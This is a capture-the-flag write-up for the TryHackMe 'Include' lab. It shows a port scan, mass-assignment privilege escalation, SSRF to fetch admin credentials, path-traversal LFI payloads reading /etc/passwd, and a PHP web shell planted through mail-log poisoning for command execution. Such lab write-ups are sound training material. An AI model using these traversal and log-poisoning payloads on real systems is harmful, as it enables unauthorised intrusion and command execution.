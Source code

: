 ```yaml
---
title: "Writeup: TryHackMe Include"
date: "2025-03-04T21:51:41.464Z"
draft: true
slug: "writeup-tryhackme-include"
categories:
    - "it"
    - "writeups"
---
```


> [!info]
> - [Include](https://tryhackme.com/room/include)
> - Difficulty: medium
> - Platform: web, linux
>
> This challenge is an initial test to evaluate your capabilities in web pentesting, particularly for server-side attacks.
>
> Even if it's not accessible from the browser, can you still find a way to capture the flags and sneak into the secret admin panel?
>
> Answer the questions below
> 1. What is the flag value after logging in to the SysMon app?
> 2. What is the content of the hidden text file in `/var/www/html`?

This room acts as a final challenge for the advanced server-side attacks module. Vulnerabilities explored:

- Broken object property level authorization
- Information disclosure
- SSRF
- LFI2RCE via log poisoning

{{< toc >}} 

## Information gathering

I started with a port scan:

```bash
$ sudo nmap -sS -vv -T4 MACHINE_IP

PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     syn-ack ttl 61 Postfix smtpd
110/tcp   open  pop3     syn-ack ttl 61 Dovecot pop3d
143/tcp   open  imap     syn-ack ttl 61 Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap syn-ack ttl 61 Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 syn-ack ttl 61 Dovecot pop3d
4000/tcp  open  http     syn-ack ttl 61 Node.js (Express middleware)
50000/tcp open  http     syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
Service Info: Host:  mail.filepath.lab; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are lots of open ports: SSH, two web apps, and a mail server.

The first web app running on port 5000 is a SysMon portal. We need to find a way into it to get the first flag.

![Screenshot of SysMon app](ctf_include_sysmon_home.png)

The second web app is running on port 4000.

![Screenshot of review web app login page](ctf_include_social_login.png)

Here, I almost missed the big "Sign In using guest/guest" phrase.

## Privilege escalation via mass assignment vulnerability

After logging in with guest credentials we are presented with several profiles. Current user profile exposes a lot of properties which can be considered an excessive data exposure part of [broken object property level authorization](https://owasp.org/API-Security/editions/2023/en/0xa3-broken-object-property-level-authorization/) vulnerability. There is a form which allows adding new properties.

![Screenshot of user profile](ctf_include_profile.png)

The form is vulnerable to the mass assignment attack, so I used it to escalate current user privileges to administrator by changing value of `isAdmin` property.

![Screenshot of the form set to isAdmin and true values](ctf_include_admin_form.png)

> [!note]
> Some writeups call this prototype pollution vulnerability, which is incorrect: we don't modify object prototype here.

## Getting admin credentials via SSRF

After successful privilege escalation, profile has two new links: "API" and "Settings".

![Screenshot of the page with new links](ctf_include_profile_admin.png)

On "API" page there is information about how to access internal APIs; one endpoint allows getting administrator credentials.

```
API Dashboard

Below is a list of important APIs accessible to admins with sample requests and responses:

    Internal API

    GET http://127.0.0.1:5000/internal-api HTTP/1.1
    Host: 127.0.0.1:5000

    Response:
    {
      "secretKey": "superSecretKey123",
      "confidentialInfo": "This is very confidential."
    }

    Get Admins API

    GET http://127.0.0.1:5000/getAllAdmins101099991 HTTP/1.1
    Host: 127.0.0.1:5000

    Response:
    {
        "ReviewAppUsername": "admin",
        "ReviewAppPassword": "xxxxxx",
        "SysMonAppUsername": "administrator",
        "SysMonAppPassword": "xxxxxxxxx",
    }
```

"Settings" page allows changing banner image by providing URL.

![Screeenshot of Admin Settings page](ctf_include_admin_settings.png)

This page is vulnerable to SSRF attack. Instead of image URL I provided credentials endpoint:

![Screenshot of form set to credentials API url](ctf_include_banner_ssrf.png)

Response is included on the page in base64 encoded format:

![Screenshot of the page displaying result of SSRF](ctf_include_ssrf_response.png)

I used CyberChef to decode it:

```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0= 

---

{"ReviewAppUsername":"admin","ReviewAppPassword":"REDACTED","SysMonAppUsername":"administrator","SysMonAppPassword":"REDACTED"}
```

## First flag

With these credentials I logged into SysMon app and got the first flag.

![Screenshot of the dashboard with displayed flag](ctf_include_sysmon_dashboard.png)


## LFI2RCE Via log poisoning

Profile picture on the dashboard has a curious `src`:

```html
<img src="profile.php?img=profile.png" class="img-fluid rounded-circle mb-3 profile-pic" alt="User Profile Picture">
```

To check whether it is vulnerable to local file inclusion I used `ffuf`:

```
$ ffuf -r -c -request req -request-proto 'http' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 0
...
....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 100ms]
....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 100ms]
```

Since the second flag is found on the file system, I guessed that I need to achieve LFI2RCE. Initially, I unsuccessfully attempted Apache log poisoning.

Remembering that there was a mail server, I tried [mail log poisoning](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/LFI-to-RCE/#rce-via-mail). First, I confirmed that the file `/var/log/mail.log` can be accessed.

```
http://MACHINE_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/mail.log
```

Next, to poison the log, I sent PHP code payload as an address:

```
$ telnet MACHINE_IP 25
...
220 mail.filepath.lab ESMTP Postfix (Ubuntu)
helo ok
250 mail.filepath.lab
mail from: <?php system($_GET["cmd"]); ?>
501 5.1.7 Bad sender address syntax
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

Now we can use `cmd` parameter to run commands on the system.

## Second flag

While it's possible to [start a reverse shell and get access to the whole system](https://jaxafed.github.io/posts/tryhackme_include/#log-poisoning-to-rce), I simply listed files:

```
http://MACHINE_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/mail.log&cmd=ls 
```

And then used LFI again to get the content of the flag file:

```
http://MACHINE_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/www/html/REDACTED.txt 
```

